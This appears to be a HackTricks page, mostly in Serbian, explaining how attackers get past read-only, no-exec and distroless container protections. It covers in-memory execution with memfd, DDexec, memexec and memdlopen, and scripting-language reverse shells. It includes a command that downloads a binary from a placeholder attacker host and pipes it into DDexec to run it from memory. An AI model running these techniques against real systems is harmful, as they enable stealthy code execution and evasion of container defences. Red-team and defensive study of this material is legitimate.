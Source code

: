 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In the following videos you can find the techniques mentioned in this page explained more in depth:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec scenario

Sve je češće pronaći linux mašine montirane sa **read-only (ro) zaštitom fajl sistema**, posebno u kontejnerima. To je zato što je pokretanje kontejnera sa ro fajl sistemom jednako lako kao postavljanje **`readOnlyRootFilesystem: true`** u `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Međutim, čak i ako je fajl sistem montiran kao ro, **`/dev/shm`** će i dalje biti zapisiv, tako da je lažno da ne možemo ništa napisati na disk. Međutim, ova fascikla će biti **montirana sa no-exec zaštitom**, tako da ako preuzmete binarni fajl ovde, **nećete moći da ga izvršite**.

{% hint style="warning" %}
Iz perspektive crvenog tima, ovo otežava **preuzimanje i izvršavanje** binarnih fajlova koji već nisu u sistemu (kao što su backdoor-i ili enumeratori poput `kubectl`).
{% endhint %}

## Easiest bypass: Scripts

Napomena da sam pomenuo binarne fajlove, možete **izvršiti bilo koji skript** sve dok je interpreter unutar mašine, kao što je **shell skript** ako je `sh` prisutan ili **python** **skript** ako je `python` instaliran.

Međutim, ovo nije dovoljno samo za izvršavanje vašeg binarnog backdoor-a ili drugih binarnih alata koje možda trebate pokrenuti.

## Memory Bypasses

Ako želite da izvršite binarni fajl, ali fajl sistem to ne dozvoljava, najbolji način da to uradite je **izvršavanje iz memorije**, jer **zaštite se ne primenjuju tamo**.

### FD + exec syscall bypass

Ako imate neke moćne skriptne engine unutar mašine, kao što su **Python**, **Perl**, ili **Ruby**, mogli biste preuzeti binarni fajl za izvršavanje iz memorije, sačuvati ga u memorijskom fajl deskriptoru (`create_memfd` syscall), koji neće biti zaštićen tim zaštitama i zatim pozvati **`exec` syscall** označavajući **fd kao fajl za izvršavanje**.

Za ovo možete lako koristiti projekat [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Možete mu proslediti binarni fajl i on će generisati skript u naznačenom jeziku sa **binarno kompresovanim i b64 kodiranim** instrukcijama za **dekodiranje i dekompresiju** u **fd** kreiranom pozivom `create_memfd` syscall i pozivom **exec** syscall za njegovo pokretanje.

{% hint style="warning" %}
Ovo ne funkcioniše u drugim skriptim jezicima poput PHP ili Node jer nemaju nikakav d**efault način za pozivanje sirovih syscalls** iz skripte, tako da nije moguće pozvati `create_memfd` za kreiranje **memorijskog fd** za skladištenje binarnog fajla.

Štaviše, kreiranje **običnog fd** sa fajlom u `/dev/shm` neće raditi, jer nećete moći da ga pokrenete zbog primene **no-exec zaštite**.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) je tehnika koja vam omogućava da **modifikujete memoriju vašeg vlastitog procesa** prepisivanjem njegovog **`/proc/self/mem`**.

Stoga, **kontrolišući asemblažni kod** koji se izvršava od strane procesa, možete napisati **shellcode** i "mutirati" proces da **izvrši bilo koji proizvoljni kod**.

{% hint style="success" %}
**DDexec / EverythingExec** će vam omogućiti da učitate i **izvršite** svoj vlastiti **shellcode** ili **bilo koji binarni fajl** iz **memorije**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Za više informacija o ovoj tehnici proverite Github ili:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) je prirodan sledeći korak DDexec-a. To je **DDexec shellcode demonizovan**, tako da svaki put kada želite da **pokrenete drugi binarni fajl** ne morate ponovo pokretati DDexec, možete jednostavno pokrenuti memexec shellcode putem DDexec tehnike i zatim **komunicirati sa ovim demonima da prosledite nove binarne fajlove za učitavanje i izvršavanje**.

Možete pronaći primer kako koristiti **memexec za izvršavanje binarnih fajlova iz PHP reverz shell-a** na [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Sa sličnom svrhom kao DDexec, tehnika [**memdlopen**](https://github.com/arget13/memdlopen) omogućava **lakši način učitavanja binarnih fajlova** u memoriju za kasnije izvršavanje. Može čak omogućiti i učitavanje binarnih fajlova sa zavisnostima.

## Distroless Bypass

### Šta je distroless

Distroless kontejneri sadrže samo **najosnovnije komponente potrebne za pokretanje specifične aplikacije ili servisa**, kao što su biblioteke i zavisnosti u vreme izvršavanja, ali isključuju veće komponente poput menadžera paketa, shell-a ili sistemskih alata.

Cilj distroless kontejnera je da **smanji površinu napada kontejnera eliminisanjem nepotrebnih komponenti** i minimiziranjem broja ranjivosti koje se mogu iskoristiti.

### Reverz Shell

U distroless kontejneru možda **nećete ni pronaći `sh` ili `bash`** da dobijete regularni shell. Takođe nećete pronaći binarne fajlove kao što su `ls`, `whoami`, `id`... sve što obično pokrećete u sistemu.

{% hint style="warning" %}
Stoga, **nećete** moći da dobijete **reverz shell** ili **enumerišete** sistem kao što obično radite.
{% endhint %}

Međutim, ako kompromitovani kontejner pokreće, na primer, flask web, tada je python instaliran, i stoga možete dobiti **Python reverz shell**. Ako pokreće node, možete dobiti Node rev shell, i isto važi za većinu **scripting jezika**.

{% hint style="success" %}
Korišćenjem scripting jezika mogli biste **enumerisati sistem** koristeći mogućnosti jezika.
{% endhint %}

Ako nema **`read-only/no-exec`** zaštita mogli biste iskoristiti svoj reverz shell da **pišete u fajl sistem vaše binarne fajlove** i **izvršite** ih.

{% hint style="success" %}
Međutim, u ovakvim kontejnerima ove zaštite obično postoje, ali mogli biste koristiti **prethodne tehnike izvršavanja u memoriji da ih zaobiđete**.
{% endhint %}

Možete pronaći **primere** kako da **iskoristite neke RCE ranjivosti** da dobijete scripting jezike **reverz shell-ove** i izvršite binarne fajlove iz memorije na [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ako ste zainteresovani za **hakersku karijeru** i hakovanje nehakovanog - **zapošljavamo!** (_potrebno je tečno pisanje i govorenje poljskog_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
